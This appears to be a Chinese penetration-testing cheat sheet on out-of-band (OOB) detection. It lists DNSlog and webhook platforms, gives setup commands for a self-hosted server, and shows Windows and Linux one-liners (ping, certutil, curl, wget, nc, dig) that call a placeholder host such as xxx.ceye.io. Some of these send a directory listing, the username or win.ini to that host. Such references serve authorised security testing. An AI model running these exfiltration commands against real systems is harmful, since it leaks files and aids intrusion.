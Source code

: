 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://cloud.tencent.com/developer/article/1047283)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Persistent Access to Burp Suite Sessions - Step-by-Step Guide](https://www.onsecurity.io/blog/persistent-access-to-burp-suite-sessions-step-by-step-guide/)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://web.archive.org/web/20200224073305/https://echocipher.github.io/2019/07/22/HTTP-BLIND/)
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)
- [System Hardening을 피해 RCE를 탐지하기 위한 OOB 방법들](https://www.hahwul.com/2022/03/11/bypass-system-hardening-rce-oob/)
- [ping 命令跨平台探测无回显 RCE 技巧](https://mp.weixin.qq.com/s/6NoLiQll9Cz2WjCUdDs6Mw)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/
- https://log.xn--9tr.com/

**相关工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [十分钟快速自建DNSlog服务器](https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg)
- [DNSLOG的快速搭建攻略](https://www.yinxiang.com/everhub/note/471fd1c4-7885-4b67-aa39-41dc36102b43)
- [安全技术|DNSLOG平台搭建从0到1](https://www.4hou.com/posts/VoJ9)

**平台**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)
    ```bash
    docker pull "sort/godnslog"
    docker run -p80:8080 -p53:53/udp "sort/godnslog" serve -domain yourdomain.com -4 100.100.100.100
    # yourdomain.com 替换为你的域名 100.100.100.100 替换为你的公网IP
    ```
- [yumusb/DNSLog-Platform-Golang](https://github.com/yumusb/DNSLog-Platform-Golang) - DNSLOG平台 golang 一键启动版
- [phith0n/conote-community](https://github.com/phith0n/conote-community) - Conote 综合安全测试平台社区版
- [projectdiscovery/interactsh](https://github.com/projectdiscovery/interactsh) - An OOB interaction gathering server and client library

---

## Windows

- ping

    ```
    ping %USERNAME%.xxx.ceye.io

    ping -nc 4 %USERNAME%.xxx.ceye.io
    ```

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://xxx.ceye.io/?result=%x" nul
    ```

- curl

    windows 环境默认是支持 curl 的
    ```bash
    for /F %x in ('dir /b c:\') do curl http://xxx.ceye.io/%x

    curl -F file=@C:\windows\win.ini http://xxx.ceye.io
    ```

## linux

- curl

    ```
    curl http://xxx.ceye.io/%x
    ```

- wget

    ```
    wget http://xxx.ceye.io/%x
    ```

- ping

    linux 默认 ping 不带 -c 参数是会导致无限ping下去的,一定要带 -c
    ```bash
    ping -c 4 xxx.ceye.io

    ping -nc 4 xxx.ceye.io
    ```

- openssl

    ```
    openssl s_client -connect xxx.ceye.io:80
    ```

- nc

    ```
    echo -e "GET / HTTP/1.1\nHost: http://xxx.ceye.io/%x\n\n" | nc xxx.ceye.io 80
    ```

- dig

    ```
    dig xxx.ceye.io
    ```

